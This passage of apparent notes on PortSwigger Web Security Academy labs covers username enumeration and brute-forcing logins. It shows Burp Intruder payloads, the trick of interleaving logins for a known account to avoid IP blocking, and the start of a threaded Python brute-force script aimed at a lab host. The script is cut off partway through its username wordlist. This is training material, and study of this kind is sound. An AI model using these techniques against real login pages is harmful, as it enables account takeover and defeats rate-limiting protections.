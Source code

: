 ```html
username=§test§&password=testntaorisntaoirsntairsntoairnstiarntiaroenstaiornstiaorsntaiorsntiarsntiarosntioarenstiarenstiranstarisntaiorntirsirsnatisarntirs

```

- Check for the longest response, this will be your `username`, and next do same attack but for password use `password=§test§` and look for `302` response code.

#### Lab: Broken brute-force protection, IP block

- After checking the functionality we see that system blocking our IP after 3 wrong attemps, but if we try to run 2 attempts for brute-force and then doing one login for our known `wiener` user , the system is not blocking us
- Prepare list of users for bruteforcing, something like this:

```html
wiener
carlos
carlos
wiener
...
```

- Prepare list of passwords:

```html
peter
12345
admini
peter
...
```

- And run a `Pitchfork attack` next just look for a `302` code

#### Lab: Username enumeration via account lock

- So this was a place where I stuck even after opened solution - first thing - intruder was so slow that I waited really a lot of time aaand in the end was nothing - all responses had the same length, so I wrote a simple python script to brute force it faster:

```python
import requests
from concurrent.futures import ThreadPoolExecutor


requests.packages.urllib3.disable_warnings()

TARGET_URL = 'https://0a760088037f11c980d4f87700540025.web-security-academy.net/login'

cookies = {
    'session': 'EwN1x3d5kTXnGwQ5L6G6VYtBBvi5gnQx',
}

headers = {
    'Host': '0a760088037f11c980d4f87700540025.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
}

usernames = [
    "carlos", "root", "admin", "test", "guest", "info", "adm", "mysql", "user", "administrator",
    "oracle", "ftp", "pi", "puppet", "ansible", "ec2-user", "vagrant", "azureuser", "academico", "acceso",
    "access", "accounting", "accounts", "acid", "activestat", "ad", "adam", "adkit", "admin", "administracion",
    "administrador", "administrator", "administrators", "admins", "ads", "adserver", "adsl", "ae", "af",
    "affiliate", "affiliates", "afiliados", "ag", "agenda", "agent", "ai", "aix", "ajax", "ak",
```